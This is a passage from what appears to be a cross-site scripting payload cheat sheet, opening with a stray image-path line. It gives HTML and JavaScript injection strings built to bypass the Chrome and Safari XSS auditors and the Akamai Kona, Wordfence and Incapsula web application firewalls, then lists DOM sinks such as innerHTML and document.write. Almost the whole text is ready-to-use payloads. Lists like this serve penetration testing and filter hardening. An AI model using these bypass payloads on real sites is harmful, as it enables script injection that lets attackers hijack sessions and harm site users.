 #### Chrome < v60 Beta XSS-Auditor Bypass
```html
<script src="data:,alert(1)%250A-->
```

#### Other Google Audit Bypass Payloads
```html
<script>alert(1)</script
<script>alert(1)%0d%0a-->%09</script
<x>%00%00%00%00%00%00%00<script>alert(1)</script>
```

### Safari
```html
<script>location.href;'javascript:alert%281%29'</script>
```

### Kona WAF (Akamai) Bypass
```html
<img src=x onerror=prompt(document.domain) onerror=prompt(document.domain) onerror=prompt(document.domain)>
```

### Wordfence
```html
<meter onmouseover="alert(1)"
'">><div><meter onmouseover="alert(1)"</div>"
>><marquee loop=1 width=0 onfinish=alert(1)>
```

### Incapsula WAF
```html
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
<img/src=q onerror='new Function`al\ert\`1\``'>
```

## DOM Based XSS

### Injection Vectors
#### document
```javascript
document.write()
document.writeln()
document.domain
```

#### element
```javascript
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```
